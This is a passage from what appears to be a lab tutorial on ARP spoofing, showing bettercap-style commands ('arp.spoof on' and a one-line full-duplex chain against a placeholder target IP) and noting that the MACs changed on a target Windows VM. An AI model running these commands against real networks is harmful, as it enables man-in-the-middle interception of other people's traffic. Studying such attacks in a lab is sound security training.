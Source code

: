 - Now, we can use the `arp.spoof on` command to start the ARP spoofing attack.

  ```bash
  arp.spoof on
  ```

- If we want to run this as 1 command, we can use the following command:

  ```bash
  set arp.spoof.fullduplex true;set arp.spoof.targets <target_ip>;arp.spoof on
  ```

  ![](../imgs/Screenshot%20(12).png)

  Now, if we check the Target Windows Vm, we can clearly see, the MACs changed.
